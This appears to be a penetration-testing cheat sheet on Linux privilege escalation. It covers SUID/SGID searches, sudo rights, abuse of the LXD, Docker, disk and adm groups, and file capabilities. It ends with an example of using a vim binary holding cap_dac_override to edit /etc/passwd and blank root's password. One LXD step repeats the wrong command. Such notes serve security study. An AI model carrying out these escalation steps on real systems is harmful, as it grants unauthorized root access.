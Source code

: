 ## Special Permissions
### SUID
**Set User ID upon Execution**
```shell
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
### SGID
```shell
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```
### Sudo Rights abuse
List entries in the `NOPASSWD` option.
```shell
sudo -l
```

## Privileged Groups 
### LXC / LXD
* LXD is similar to Docker and is Ubuntu's container manager. 
* Upon creation all user groups are added to LXD group
```shell
id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```
* Privileges can be escalated by creating a LXD container.  

Unzip Alpine image.
```shell
 unzip alpine.zip 
```
Start LXD initialisation processes
```shell
lxd init
```
Import the local image
```shell
 lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
```
Start a privileged container
```shell
lxc init alpine r00t -c security.privileged=true
```
Mount the host file system
```shell
lxc init alpine r00t -c security.privileged=true
```
Spawn a shell in the container
```shell
lxc start r00t
lxc exec r00t /bin/sh
```
### Docker
* Placing a user in the docker group is equivalent to root level access to the file system without requiring a password.
* Members of docker groups can spawn new docker containers.

Create a new docket container in root
```shell
docker run -v /root:/mnt -it ubuntu
```
Once the container is started you can add or retrieve ssh keys for the root user.

* You can do this it `/etc` to retrieve shadow files for example
### Disk 
* Users in the disk group have full acess to any device contained with `/dev` such as `/dev/sda1` which is typically the main device used by the operating system/
* An attacker can use `debugfs` to access the entire file system

### ADM
* Members of the `adm` group are able to read all logs stored in `/var/log`
* This does not give root access but you may be able to gather sensitive information 
## Capabilities
* Security feature in Linux that allows specific privileges to be granted to processes.
* Setting capabilities involves using the appropriate tools and commands to assign specific capabilities to executable's or programs.
### Set Capability 
```shell
sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```
* This means that the binary will be able to perform specific actions that it would not be able to perform without the capability. 
* `cap_net_bind_service` means a binary will be able to bind to network ports.

 | **Capability**         | **Description**                                                                                                                                           |
 | ---------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------- |
 | `cap_sys_admin`        | Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.                                     |
 | `cap_sys_chroot`       | Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.            |
 | `cap_sys_ptrace`       | Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes. |
 | `cap_sys_nice`         | Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.               |
 | `cap_sys_time`         | Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.                |
 | `cap_sys_resource`     | Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.       |
 | `cap_sys_module`       | Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.      |
 | `cap_net_bind_service` | Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.                         |

* When a binary is executed, it can perform the actions that capabilities allow. However it cannot perform any actions not allowed by capabilities. 
#### Values
Example values to be used with `setcap`

|**Capability Values**|**Desciption**|
|---|---|
|`=`|This value sets the specified capability for the executable, but does not grant any privileges. This can be useful if we want to clear a previously set capability for the executable.|
|`+ep`|This value grants the effective and permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability.|
|`+ei`|This value grants sufficient and inheritable privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows and child processes spawned by the executable to inherit the capability and perform the same actions.|
|`+p`|This value grants the permitted privileges for the specified capability to the executable. This allows the executable to perform the actions that the capability allows but does not allow it to perform any actions that are not allowed by the capability. This can be useful if we want to grant the capability to the executable but prevent it from inheriting the capability or allowing child processes to inherit it.|
#### Privileges to escalate 
| **Capability**     | **Description**                                                                                                                                                                                                              |
| ------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cap_setuid`       | Allows a process to set its effective user ID, which can be used to gain the privileges of another user, including the `root` user.                                                                                          |
| `cap_setgid`       | Allows to set its effective group ID, which can be used to gain the privileges of another group, including the `root` group.                                                                                                 |
| `cap_sys_admin`    | This capability provides a broad range of administrative privileges, including the ability to perform many actions reserved for the `root` user, such as modifying system settings and mounting and unmounting file systems. |
| `cap_dac_override` | Allows bypassing of file read, write, and execute permission checks.                                                                                                                                                         |

### Enumerating Capabilities
```shell
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```
### Example Exploitation
```shell
getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

```shell
cat /etc/passwd | head -n1
```
Remove the X off the password
```shell
/usr/bin/vim.basic /etc/passwd
```
